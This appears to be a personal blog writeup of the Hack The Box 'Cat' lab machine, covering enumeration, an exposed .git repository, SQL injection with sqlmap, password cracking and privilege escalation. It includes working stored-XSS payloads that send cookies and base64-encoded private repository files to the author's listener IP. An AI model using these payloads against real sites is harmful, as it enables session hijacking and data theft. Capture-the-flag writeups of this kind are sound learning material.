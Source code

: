 ```yaml
---
title: name
date: 2025-04- 14:00:00 +0200
categories: [Hack The Box, Linux0] 
tags: [Linux, priv-escalation, initial access, cat , XSS] 
toc: true
comments: true
image: ./assets/img/attachments/cat.png
imageNameKey: cat
---
```

In this writeup, I’ll be walking through the **Cat** machine from [Hack The Box](https://hackthebox.com), which is rated **Medium** in difficulty. This is the **fifth machine** I’m tackling as part of my journey to reach **1000 points**, and I’m documenting each step to reinforce my learning and help others in the community. The machine involves a mix of enumeration, web exploitation, and privilege escalation.
So lets start!
# Port Enumeration

I will start with scanning the most common ports
```bash
nmap -Pn -sV -F 10.10.11.53 -sC      
```
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:56 EDT
Nmap scan report for 10.10.11.53
Host is up (0.36s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

I'll perform full port enumeration while taking a closer look at the HTTP service.
```bash
 sudo nmap -sS -Pn -p- 10.10.11.53 -A -n -T5
```
Got nothing new beyond what I found earlier.
## Content Discovery
```bash
ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 3

ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-files.txt -e /.git/ -mc all -fc 404

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-1.png)

As we can see, the `.git` repository is present — let's check if it's accessible.
```bash
curl -s http://cat.htb/.git/HEAD
curl -s http://cat.htb/.git/config
curl -s http://cat.htb/.git/index
curl -s http://cat.htb/.git/logs/HEAD

```
```bash
ref: refs/heads/master
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
0000000000000000000000000000000000000000 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 Axel <axel2017@gmail.com> 1725146774 +0000       commit (initial): Cat v1
```
Now we will get those files using git_dumper.py
```bash
python3 git_dumper.py http://cat.htb/.git/ ./cat-source
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-2.png)

We got all application codes, so lets analyze them to find vulnerable injection point

# Gaining Access
![Whatever Alt Text You Want](/assets/img/attachments/cat-3.png)

Those are the parameters that are reflected in the page, and only **admins** can view them (at view_cat.php)

![Whatever Alt Text You Want](/assets/img/attachments/cat-4.png)

At contest.php: 4 parameters out pf five are filtered, but username doesn't

![Whatever Alt Text You Want](/assets/img/attachments/cat-5.png)

And here at join.php we can see that username is added without any checks or validations on the input and also we knew the hashing algorithm used for passwords (md5)
But since username isn't reflected for me and just at view_cat.php I will make admin trigger stored XSS to steal his cookies
```bash
python -m http.server 
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-12.png)

```
<script>
new Image().src = 'https://10.10.16.87/?c=' + document.cookie;
</script>
```

![Whatever Alt Text You Want](/assets/img/attachments/cat-8.png)
I add a cat and waited

![Whatever Alt Text You Want](/assets/img/attachments/cat-9.png)
I got admin cookie

![Whatever Alt Text You Want](/assets/img/attachments/cat-10.png)

Now we can see admin panel which is accept_cat.php

![Whatever Alt Text You Want](/assets/img/attachments/cat-11.png)

Which is vulnerable to SQLi, so i used sqlmap to dump all tables
```bash
sqlmap -u http://cat.htb/accept_cat.php --data="catId=1&catName=test" --cookie="PHPSESSID=admin php ssid" --level=5 --risk=3 --dbs -p catName --dbms=sqlite --tables --dump -T users --threads 9
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-13.png)
I couldn't crack axel password but was able to get rosa password
```bash
hashcat -m 0 -a 0 d1bbba3670feb9435c9841e46e60ee2f /usr/share/wordlists/rockyou.txt

```

![Whatever Alt Text You Want](/assets/img/attachments/cat-14.png)

I was able to connect to this user by ssh
![Whatever Alt Text You Want](/assets/img/attachments/cat-15.png)
using the same python server on my machine, I downloaded linpeas.sh on victim's machine.

![Whatever Alt Text You Want](/assets/img/attachments/cat-16.png)

After checking this one:
![Whatever Alt Text You Want](/assets/img/attachments/cat-17.png)

using this password i was able to increase my privileges
![Whatever Alt Text You Want](/assets/img/attachments/cat-18.png)
And we got user flag!
# Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cat-19.png)

Lets check those ports
```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-20.png)

I found this website, and i logged in with axel's credentials, and the service version has exploits

![Whatever Alt Text You Want](/assets/img/attachments/cat-21.png)

```js
<a href="javascript:location.href='http://ip:8000?c='+document.cookie">XSS test</a>
```
But didn't work as the previous case where admin visits the page, something is missing

![Whatever Alt Text You Want](/assets/img/attachments/cat-22.png)
Lets check this one!
![Whatever Alt Text You Want](/assets/img/attachments/cat-23.png)

Mail must be sent to jobert, but we can see that this page doesn't have cookie header:
```js
<a href="javascript:alert(document.cookie)">Click me</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-24.png)

**You must upload any file on the created repo to procced!**
I wanted to validate that the admin views the repo as mentioned at the mail
```js
<a href="javascript:fetch('http://10.10.16.87:8000/?ping=1')">Test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-25.png)

And since  i couldn't access this page : http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
```js
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
.then(r => r.text())
.then(d => fetch('http://ip:8000/?leak=' + btoa(d)))
">Click me</a>

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-26.png)
nothing important here
```
# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

I tried to get the content of the other files at this repo, couldn't list them, but after guessing (trial and error) i got the content of index.php
```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.16.87:8000/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-27.png)

![Whatever Alt Text You Want](/assets/img/attachments/cat-28.png)

I couldn't log in to administrator account with this password but it worked as root password!
![Whatever Alt Text You Want](/assets/img/attachments/cat-29.png)

**And done!**  
That was a tough one — definitely one of the more challenging tasks I've tackled. But every step was a learning opportunity, and I gained a lot of valuable insight along the way. Looking forward to applying these lessons in future challenges!